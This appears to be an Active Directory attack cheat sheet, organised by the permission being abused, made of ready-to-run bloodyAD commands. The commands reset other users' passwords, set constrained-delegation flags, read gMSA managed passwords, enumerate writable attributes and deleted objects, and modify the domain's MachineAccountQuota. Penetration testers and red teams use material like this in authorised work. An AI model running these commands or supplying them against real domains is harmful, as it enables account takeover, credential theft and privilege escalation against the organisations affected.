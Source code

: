 ##### AllExtendedRights

###### Reset Password

```sh
bloodyAD --host $dc -d $domain -u $username -p $password set password $target_username $new_password
```

##### AllowedToDelegate

###### Set TRUSTED\_TO\_AUTH\_FOR\_DELEGATION

```sh
bloodyAD --host $dc -d $domain -u $username -p $password add uac $target_username -f TRUSTED_TO_AUTH_FOR_DELEGATION
```

##### ReadProperty

###### Read GMSA Password

```sh
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username --attr msDS-ManagedPassword
```

##### Other/Utility

###### Retrieve User Info

```sh
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username
```

###### Find Writable Attributes

```sh
bloodyAD --host $dc -d $domain -u $username -p $password get writable --detail
```

###### Find Deleted Objects

```sh
bloodyAD --host $dc -d $domain -u $username -p $password get writable --include-del
```

###### Enumerate MachineAccountQuota

```sh
bloodyAD --host $dc -d $domain -u $username -p $password get object 'DC=dc,DC=dc' --attr ms-DS-MachineAccountQuota
```

###### Set MAQ Value

```sh
bloodyAD --host $dc -d $domain -u $username -p $password set object 'DC=dc,DC=dc' ms-DS-MachineAccountQuota -v 10
```
